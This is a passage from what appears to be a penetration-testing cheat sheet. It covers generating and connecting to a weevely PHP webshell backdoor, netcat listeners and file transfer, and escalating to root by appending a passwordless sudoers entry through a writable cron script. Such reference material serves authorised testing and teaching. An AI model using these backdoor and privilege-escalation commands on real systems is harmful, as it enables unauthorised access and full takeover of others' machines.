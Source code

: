 **Generate a backdoor agent**
`weevely generate <password> <path>`
e.g.
`weevely generate password /home/kali/Desktop/webshell.php`

**Connect to the remote backdoor agent**
`weevely <webshell_address> <password>`
e.g.
`weevely http://192.168.0.100/upload/webshell.php password`


#### Netcat
Utility for reading and writing data across a network. Useful as a listening tool or for transferring files.

**Listen on a specific port**
`sudo nc -lp <port>`

**Listen on a specific port (verbose mode)**
`sudo nc -lvp <port>`

**Enumerate active listening ports**
`sudo netstat -tunlp`

**Transferring a file**
Listen on one host
`nc -vn -lp <port> > <file_to_be_saved>`
Send the file from the other host
`nc -vn <target_ip> <port> < <file_to_be_sent>`


#### Cron Exploitation
In Linux systems, `cron` is used to automate the execute of particular tasks (running scripts, backing up files, etc). The significance of cron for post-exploitation is that if a scheduled job contains a directory with a modifiable script, it can be overwritten to provide escalation of privileges.

**Enumerate scheduled cron jobs**
`cat /etc/crontab`

**Cron directories**
```
/etc/cron.d
/etc/cron.hourly
/etc/cron.daily
/etc/cron.weekly
/etc/cron.monthly
```

**Enumerating all files in the cron directories**
`ls -lah /etc/cron*`

**Escalating privileges through a modifiable script**
Because `cron` jobs are run with root privileges, if there are any scripts being run by crontab that are modifiable by users other than root, they can be exploited to obtain root access
```
# open the script
nano <script>

# add the below command to the script
# allowing the current user to go root without a password
# by appending them to the sudoers file in /etc/
echo "<current_user> ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# run the script
run-parts /etc/cron.<directory>
# e.g. if the script is in or referenced by cron.daily
run-parts /etc/cron.daily

# go root
```